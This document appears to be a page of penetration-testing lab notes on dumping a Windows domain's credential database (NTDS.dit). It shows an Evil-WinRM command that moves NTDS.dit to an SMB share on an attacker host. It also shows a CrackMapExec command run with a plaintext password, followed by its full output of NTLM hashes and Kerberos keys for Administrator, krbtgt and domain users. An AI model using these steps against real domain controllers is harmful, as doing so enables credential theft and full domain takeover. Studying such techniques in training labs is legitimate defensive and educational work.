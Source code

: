 
## Transferring NTDS.dit to Attack Host
```bash
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 

        1 file(s) moved.		
```

## Alternative Method: Using **CrackMapExec** to capture NTDS.dit
```bash
Attacker@xxx[/xxx]$ crackmapexec smb <IP> -u bwilliamson -p P@55w0rd! --ntds

SMB         <IP>    445     DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefrieght.local) (signing:True) (SMBv1:False)
SMB         <IP>    445     DC01             [+] inlanefrieght.local\bwilliamson:P@55w0rd! (Pwn3d!)
SMB         <IP>    445     DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         <IP>    445     DC01           Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         <IP>    445     DC01           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         <IP>    445     DC01           DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::
SMB         <IP>    445     DC01           krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
SMB         <IP>    445     DC01           inlanefrieght.local\jim:1104:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
SMB         <IP>    445     DC01           WIN-IAUBULPG5MZ:1105:aad3b435b51404eeaad3b435b51404ee:4f3c625b54aa03e471691f124d5bf1cd:::
SMB         <IP>    445     DC01           WIN-NKHHJGP3SMT:1106:aad3b435b51404eeaad3b435b51404ee:a74cc84578c16a6f81ec90765d5eb95f:::
SMB         <IP>    445     DC01           WIN-K5E9CWYEG7Z:1107:aad3b435b51404eeaad3b435b51404ee:ec209bfad5c41f919994a45ed10e0f5c:::
SMB         <IP>    445     DC01           WIN-5MG4NRVHF2W:1108:aad3b435b51404eeaad3b435b51404ee:7ede00664356820f2fc9bf10f4d62400:::
SMB         <IP>    445     DC01           WIN-UISCTR0XLKW:1109:aad3b435b51404eeaad3b435b51404ee:cad1b8b25578ee07a7afaf5647e558ee:::
SMB         <IP>    445     DC01           WIN-ETN7BWMPGXD:1110:aad3b435b51404eeaad3b435b51404ee:edec0ceb606cf2e35ce4f56039e9d8e7:::
SMB         <IP>    445     DC01           inlanefrieght.local\bwilliamson:1125:aad3b435b51404eeaad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27:::
SMB         <IP>    445     DC01           inlanefrieght.local\bburgerstien:1126:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
SMB         <IP>    445     DC01           inlanefrieght.local\jstevenson:1131:aad3b435b51404eeaad3b435b51404ee:bc007082d32777855e253fd4defe70ee:::
SMB         <IP>    445     DC01           inlanefrieght.local\jjohnson:1133:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
SMB         <IP>    445     DC01           inlanefrieght.local\jdoe:1134:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         <IP>    445     DC01           Administrator:aes256-cts-hmac-sha1-96:cc01f5150bb4a7dda80f30fbe0ac00bed09a413243c05d6934bbddf1302bc552
SMB         <IP>    445     DC01           Administrator:aes128-cts-hmac-sha1-96:bd99b6a46a85118cf2a0df1c4f5106fb
SMB         <IP>    445     DC01           Administrator:des-cbc-md5:618c1c5ef780cde3
SMB         <IP>    445     DC01           DC01$:aes256-cts-hmac-sha1-96:113ffdc64531d054a37df36a07ad7c533723247c4dbe84322341adbd71fe93a9
SMB         <IP>    445     DC01           DC01$:aes128-cts-hmac-sha1-96:ea10ef59d9ec03a4162605d7306cc78d
SMB         <IP>    445     DC01           DC01$:des-cbc-md5:a2852362e50eae92
SMB         <IP>    445     DC01           krbtgt:aes256-cts-hmac-sha1-96:1eb8d5a94ae5ce2f2d179b9bfe6a78a321d4d0c6ecca8efcac4f4e8932cc78e9
```